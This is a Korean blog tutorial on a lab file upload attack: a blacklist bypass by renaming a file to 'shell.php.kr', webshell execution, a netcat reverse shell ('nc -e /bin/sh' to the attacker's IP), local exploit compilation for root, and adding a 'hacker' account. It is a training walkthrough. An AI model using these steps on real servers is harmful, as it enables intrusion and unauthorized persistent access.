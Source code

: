 ```yaml
---
title: "파일업로드 공격 실습(File Upload Attack)"
categories:
  - Web
tags:
  - Web hacking
  - File upload
  - netcat
  - webshell
comments: true
---
```


파일 업로드 공격 취약점을 이용하여 서버의 root 권한을 획득하는 방법에 대해 기술한다.

> 1. 공격대상 서버 가상머신 환경설정
> 2. 파일 업로드 취약점 확인
> 3. Webshell 업로드 및 실행
> 4. nc 를 이용한 reverse connection
> 5. exploit code 재컴파일, 실행을 통한 권한상승


# 1. 공격대상 서버 가상머신 환경설정

VMware [Edit]-[Virtual Network Editor]-[VMnet8] 에서 다음과 같이 설정한다.
- Subnet IP : 10.10.10.0
- DHCP Settings - starting ip address : 10.10.10.5
- DHCP Settings - starting ip address : 10.10.10.254

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/1.jpg"></p></center>

VMware NAT 방식에서 공격대상과 공격자 IP는 다음과 같다.
- 공격대상 서버의 IP : 10.10.10.10
- 공격자 PC 의 IP : 10.10.10.1


# 2. 파일 업로드 취약점 확인

파일 업로드 공격은 다음의 3가지를 충족해야 한다.
- 공격자가 원하는 파일이 업로드 가능해야 한다.(확장자 우회 등을 통해)
- 업로드된 파일의 경로(서버 내 경로)를 알아야 한다.
- 업로드된 파일의 실행권한

> 2.1. 공격대상 웹 게시판에 sher.jpg 파일 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.png"></p></center>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.1.2.png"></p></center>

> 2.2. [이미지 우클릭]-[이미지 주소 복사] 를 통해 업로드된 파일의 경로를 파악한다.

파일 업로드 경로 : http://10.10.10.10/wizboard/table/root/board04/updir/sher.jpg

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/2.2.png"></p></center>


# 3. Webshell 업로드 및 실행

> 3.1. shell.php 업로드를 하면 다음과 같이 블랙리스트 기반 파일 확장자 필터링이 있는 것을 알 수 있다.


<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.1.png"></p></center>


> 3.2. shell.php.kr 로 파일명을 변경한 후 업로드 재시도(파일 필터링 우회기법) : 성공

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.2.png"></p></center>

> 3.3. Webshell 실행

<2.2. 파일 업로드 경로> 에서 알아낸 파일 업로드 경로를 참고하여 다음의 url 을 통해 webshell 을 실행시킨다.

http://10.10.10.10/wizboard/table/root/board04/updir/shell.php.kr

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.3.png"></p></center>

> 3.4. 계정 확인 (명령어 : id)

**`nobody` 계정은 가장 권한이 낮은 계정 중 하나로, apache web server process를 구동시키기 위한 계정이다.**

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.4.png"></p></center>

> 3.5. test 파일 생성 후 확인(명령어 : touch test, ls -al)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.5.png"></p></center>

> 3.6. test 파일 권한 확인(명령어 : stat test)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.6.png"></p></center>

> 3.7. exploit 코드 업로드 후, 실행을 통한 권한상승 시도

3.7.1. 게시판을 통한 exp1.c 업로드

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.1.png"></p></center>

3.7.2. 컴파일 : gcc -o exp exp1.c

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.2.png"></p></center>

3.7.3. 실행 : ./exp

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.3.png"></p></center>

3.7.4. 권한 상승 실패로 여전히 nobody 계정이다.

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/3.7.4.png"></p></center>


<div class="notice">
※ Expolit code 를 실행하였음에도, 권한상승에 실패한 이유?

웹쉘이란?  사실은 쉘이 아니다. 리눅스 쉘에 명령어를 전달하고 출력결과를 전달해주는 것으로 리눅스에서 쉘은 /bin/bash, /bin/sh 등이다. 실제 shell 을 통해 exploit 코드를 실행하여야 한다.
</div>


# 4. nc 를 이용한 reverse connection

> 4.1. 공격 대상 PC 에서 nc 프로그램을 연결대기 상태로 만든다.

cmd 창을 2개 생성 후 다음과 같이 명령어를 입력한다.<br>
`cmd_1` : nc -l -p 31337, 31337 포트를 이용한 프로그램 실행 중 상태 (31337 포트는 임의로 선택한 것이다.)<br>
`cmd_2` : netstat -an, 31337 포트가 리스팅 상태인지(프로그램이 제대로 실행되었는지) 확인

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.1.jpg"></p></center>

> 4.2. 웹쉘을 통해 서버 -> 공격대상 PC 연결시킨다.

`웹쉘` : nc -e /bin/sh 10.10.10.1 31337 (이때, 10.10.10.1 은 공격자의 IP 주소이다.)<br>
`cmd_1` : id (연결확인)

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/4.2.png"></p></center>

# 5. exploit code 재컴파일, 실행을 통한 권한상승

> 5.1. 이전에 컴파일 된, exp 를 삭제하고, nc(/bin/sh) 를 통해 exploit 코드를 재컴파일 후 실행시킨다.

<div class="notice">
※ root 권한의 계정으로 컴파일 된 실행파일을 만들기 위함
</div>

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.1.jpg"></p></center>

> 5.2. hacker 계정 추가

```
useradd hacker<br>
passwd hacker<br>
cat /etc/passwd (hacker 계정 추가 확인)
```

<center><p><img src="/assets/2019-01-28-post-file_upload_attack/5.2.png"></p></center>

<br>

{% if page.comments %}

<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://https-c0msherl0ck-github-io.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
                            
{% endif %}
